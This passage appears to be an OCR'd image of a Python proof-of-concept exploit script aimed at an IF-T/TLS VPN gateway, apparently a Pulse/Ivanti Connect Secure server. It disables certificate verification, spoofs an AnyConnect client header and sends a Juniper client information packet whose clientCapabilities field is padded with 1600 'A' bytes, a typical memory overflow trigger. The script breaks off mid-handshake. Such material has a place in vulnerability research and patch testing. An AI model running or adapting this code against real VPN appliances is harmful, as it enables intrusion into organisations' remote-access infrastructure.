 ```
    print("\n发送>")
    hexdump(package)
    sock.sendall(package)

    res = sock.recv(4096)
    print("\n接受<")
    hexdump(res)


def get_real_local_ip():
    try:
        # 连接外部地址，不会真正建立连接，但能获取正确的本机 IP
        s = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
        s.connect(("114.114.114.114", 80))
        ip = s.getsockname()[0]
        s.close()
        return ip
    except Exception as e:
        return f"Error: {e}"


s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.settimeout(1)
context = ssl.create_default_context()
context.check_hostname = False
context.verify_mode = ssl.CERT_NONE
s = context.wrap_socket(s, server_hostname=HOST)

# 开始进行认证
s.connect((HOST, PORT))
body = "GET / HTTP/1.1\r\n"
body += f"Host: {HOST}:{PORT}\r\n"
body += "User-Agent: AnyConnect-compatible OpenConnect VPN Agent v9.12-188-gaebfabb3-dirty\r\n"
body += "Content-Type: EAP\r\n"
body += "Upgrade: IF-T/TLS 1.0\r\n"
body += "Content-Length: 0\r\n\r\n"

print("发送>")
print(body)
s.sendall(body.encode())

line = s.recv(4096).decode()
print("\n接受<")
print(line)

# IF-T version request.
ift_hdr_array = make_ift_hdr(VENDOR_TCG, IFT_VERSION_REQUEST)
data = struct.pack('>I', 0x00010202)  # Min version 1, max 2, preferred 2
package_data = make_package(ift_hdr_array, len(data) + 16, 0, data)

send_package(s, package_data)

# Client information packet over IF-T/TLS
ift_hdr_array = make_ift_hdr(VENDOR_JUNIPER, 0x88)
data = 'clientHostName=ubuntu '
data += 'clientIp=' + get_real_local_ip()+' '
data += 'clientCapabilities=' + get_real_local_ip() + 'A' * 1600 + '\x0a\x00'
package_data = make_package(ift_hdr_array, len(data) + 16, 1, data.encode())

send_package(s, package_data)

# Start by sending an EAP Identity of 'anonymous'
ift_hdr_array = make_ift_hdr(VENDOR_TCG, IFT_CLIENT_AUTH_RESPONSE)
```